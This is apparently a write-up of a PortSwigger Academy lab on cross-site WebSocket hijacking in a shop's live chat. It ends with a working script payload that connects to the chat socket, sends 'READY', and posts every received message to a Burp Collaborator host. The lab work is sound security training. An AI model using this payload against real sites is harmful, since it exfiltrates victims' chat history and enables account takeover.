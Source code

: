 
# Cross-site WebSocket hijacking

This online shop has a live chat feature implemented using WebSockets.

To solve the lab, use the exploit server to host an HTML/JavaScript payload that uses a cross-site WebSocket hijacking attack to exfiltrate the victim's chat history, then use this gain access to their account.

Note: To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use the provided exploit server and/or Burp Collaborator's default public server.

---------------------------------------------

Reference: https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking

---------------------------------------------

The request to /chat does not contain a CSRF token:



![img](images/Cross-site%20WebSocket%20hijacking/1.png)


Before sending anything, the message “READY” is sent and the server responds:





![img](images/Cross-site%20WebSocket%20hijacking/2.png)
![img](images/Cross-site%20WebSocket%20hijacking/3.png)


Then it is possible to send messages:





![img](images/Cross-site%20WebSocket%20hijacking/4.png)
![img](images/Cross-site%20WebSocket%20hijacking/5.png)



Payload:

```
<script>
    var ws = new WebSocket('wss://0ab10034038a49a581f67501001e002b.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://v95x1aaxyvlt8fptdelcbw94ovumie63.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```






![img](images/Cross-site%20WebSocket%20hijacking/6.png)
![img](images/Cross-site%20WebSocket%20hijacking/7.png)
